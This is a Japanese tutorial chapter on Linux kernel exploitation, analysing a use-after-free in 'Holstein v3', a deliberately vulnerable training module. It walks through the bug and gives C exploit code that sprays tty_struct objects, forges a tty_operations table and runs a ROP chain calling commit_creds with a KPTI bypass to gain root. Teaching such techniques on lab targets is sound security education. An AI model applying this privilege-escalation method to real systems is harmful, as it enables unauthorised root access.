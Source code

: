 ```yaml
---
title: "Holstein v3: Use-after-Freeの悪用"
tags:
    - [Linux]
    - [Kernel]
    - [Use-after-Free]
lang: ja
---
```

前章ではHolsteinモジュールのHeap Overflowを悪用して権限昇格をしました。またもやHolsteinモジュールの開発者は脆弱性を修正し、Holstein v3を公開しました。本章では、改善されたHolsteinモジュールv3をexploitしていきます。

<div class="column" title="目次">
<!-- toc --><br>
</div>

## パッチの解析と脆弱性の調査
まずは[Holstein v3](distfiles/LK01-3.tar.gz)をダウンロードしてください。
v2との差分は主に2点あります。まず、`open`でのバッファ確保時に`kzalloc`が使われています。
```c
  g_buf = kzalloc(BUFFER_SIZE, GFP_KERNEL);
  if (!g_buf) {
    printk(KERN_INFO "kmalloc failed");
    return -ENOMEM;
  }
```
`kzalloc`は`kmalloc`と同じくカーネルのヒープから領域を確保しますが、その後内容が0で埋められるという点が違います。つまり、`malloc`に対する`calloc`のような位置付けの関数が`kzalloc`です。
次に、`read`と`write`においてHeap Overflowが起きないようにサイズチェックがあります。
```c
static ssize_t module_read(struct file *file,
                           char __user *buf, size_t count,
                           loff_t *f_pos)
{
  printk(KERN_INFO "module_read called\n");

  if (count > BUFFER_SIZE) {
    printk(KERN_INFO "invalid buffer size\n");
    return -EINVAL;
  }

  if (copy_to_user(buf, g_buf, count)) {
    printk(KERN_INFO "copy_to_user failed\n");
    return -EINVAL;
  }

  return count;
}

static ssize_t module_write(struct file *file,
                            const char __user *buf, size_t count,
                            loff_t *f_pos)
{
  printk(KERN_INFO "module_write called\n");

  if (count > BUFFER_SIZE) {
    printk(KERN_INFO "invalid buffer size\n");
    return -EINVAL;
  }

  if (copy_from_user(g_buf, buf, count)) {
    printk(KERN_INFO "copy_from_user failed\n");
    return -EINVAL;
  }

  return count;
}
```
したがって、今回のカーネルモジュールではHeap Overflowが起こせません。

ここで`close`の実装を見てみましょう。
```c
static int module_close(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_close called\n");
  kfree(g_buf);
  return 0;
}
```
`g_buf`が不要になったので`kfree`で解放していますが、`g_buf`にはまだポインタが入ったままです。もし`close`した後に`g_buf`を使えたら、Use-after-Freeが起きます。

読者の中には「でも`close`したら、そのfdに対しては`read`も`write`もできないからUse-after-Freeは起きない」と考えた方もいることでしょう。たしかにその通りですが、ここでカーネル空間で動作するプログラムの特徴を思い出してみましょう。

カーネル空間では、同じリソースを複数のプログラムが共有できます。Holsteinモジュールも、1プログラムだけが`open`できるのではなく、複数のプログラム（あるいは1つのプログラム）が複数回`open`できます。では、もし次のような使い方をしたらどうなるでしょうか。
```c
int fd1 = open("/dev/holstein", O_RDWR);
int fd2 = open("/dev/holstein", O_RDWR);
close(fd1);
write(fd2, "Hello", 5);
```
最初の`open`で`g_buf`が確保されますが、次にまた`open`するため、`g_buf`は新しいバッファで置き換えられます。（古い`g_buf`は解放されないまま残り、メモリリークが起きます。）次に`fd1`を`close`するため、ここで`g_buf`が解放されます。`close`した段階で`fd1`は使えなくなりますが、`fd2`はまだ有効なので、`fd2`に対して読み書きができます。すると、既に解放したはずの`g_buf`が操作できてしまい、Use-after-Freeが発生することが分かります。

このように、カーネル空間のプログラムは**複数のプログラムにリソースが共有される**という点に注意して設計しないと、簡単に脆弱性が生まれてしまいます。

<div class="balloon_l">
  <div class="faceicon"><img src="../img/cow.jpg" alt="牛さん" ></div>
  <p class="says">
    closeする時にポインタをNULLで消したり、openする時にg_bufが確保済みなら失敗するような設計にすれば、少なくとも今回のような簡単な脆弱性は防げたね。
  </p>
</div>

## KASLRの回避
手始めにカーネルのベースアドレスと`g_buf`のアドレスをリークしてみましょう。
脆弱性がUse-after-Freeになっただけで、今回もバッファサイズが0x400なので`tty_struct`が使えます。

## kROPの実現
これでROPができる状態になりました。偽の`tty_operations`を用意してROP chainにstack pivotするだけです。
しかし、前回と違いUse-after-Freeですので、今使える領域が`tty_struct`と被っています。当然`ioctl`などで`tty_operations`を使うとき、`tty_struct`にも参照されない変数がたくさんあり、そこをROP chainの領域や偽の`tty_operations`として使っても構いません。ただ、これから攻撃に使おうとしている構造体の大部分を破壊してしまうのは後々意図しないバグを生み出してしまう可能性がある上、ROP chainのサイズや構造に大幅な制限が加わってしまうこともあります。なるべく`tty_struct`とROP chainは別の領域に確保したいです。
そこで、今回は2回目のUse-after-Freeを起こします。といっても`g_buf`は1つなので、まずアドレスが分かっている今の`g_buf`にROP chainと偽の`tty_operations`を書き込みます。次に別でUse-after-Freeを起こし、そちらの`tty_struct`の関数テーブルを書き換えます。こうすれば`tty_struct`の関数テーブルのみを書き換えるので、安定したexploitが実現できます。
```c
  // ROP chain
  unsigned long *chain = (unsigned long*)&buf;
  *chain++ = rop_pop_rdi;
  *chain++ = 0;
  *chain++ = addr_prepare_kernel_cred;
  *chain++ = rop_pop_rcx;
  *chain++ = 0;
  *chain++ = rop_mov_rdi_rax_rep_movsq;
  *chain++ = addr_commit_creds;
  *chain++ = rop_bypass_kpti;
  *chain++ = 0xdeadbeef;
  *chain++ = 0xdeadbeef;
  *chain++ = (unsigned long)&win;
  *chain++ = user_cs;
  *chain++ = user_rflags;
  *chain++ = user_rsp;
  *chain++ = user_ss;

  // 偽tty_operations
  *(unsigned long*)&buf[0x3f8] = rop_push_rdx_xor_eax_415b004f_pop_rsp_rbp;

  write(fd2, buf, 0x400);

  // 2回目のUse-after-Free
  int fd3 = open("/dev/holstein", O_RDWR);
  int fd4 = open("/dev/holstein", O_RDWR);
  if (fd3 == -1 || fd4 == -1)
    fatal("/dev/holstein");
  close(fd3);
  for (int i = 50; i < 100; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1) fatal("/dev/ptmx");
  }

  // 関数テーブルのポインタを書き換える
  read(fd4, buf, 0x400);
  *(unsigned long*)&buf[0x18] = g_buf + 0x3f8 - 12*8;
  write(fd4, buf, 0x20);

  // RIP制御
  for (int i = 50; i < 100; i++) {
    ioctl(spray[i], 0, g_buf - 8); // rsp=rdx; pop rbp;
  }
```

権限昇格できていれば成功です。このexploitは[ここ](exploit/uaf-krop.c)からダウンロードできます。

<center>
  <img src="img/uaf_privesc.png" alt="UAFによる権限昇格" style="width:320px;">
</center>

このように、Heap OverflowやUse-after-Freeといった脆弱性は、カーネル空間では多くの場合ユーザー空間の同じ脆弱性よりも簡単に攻撃可能です。
これはカーネルのヒープが共有されており、関数ポインタなどを持ついろんな構造体を攻撃に利用できるからです。逆に言えば、Heap BOFやUAFが起きるオブジェクトと同じサイズ帯で悪用できる構造体を見つけられなければ、exploitは困難になります。

[^1]: 後の章で登場しますが、eBPFという機能のJITが有効なとき、カーネル空間でRIP制御ができれば、高い確率で権限昇格するexploitが実現できます。

---

<div class="column" title="例題">
  <code>modprobe_path</code>の書き換えや<code>cred</code>構造体の書き換えなどの、ROPを使わない方法でも権限昇格してみましょう。<br>
</div>
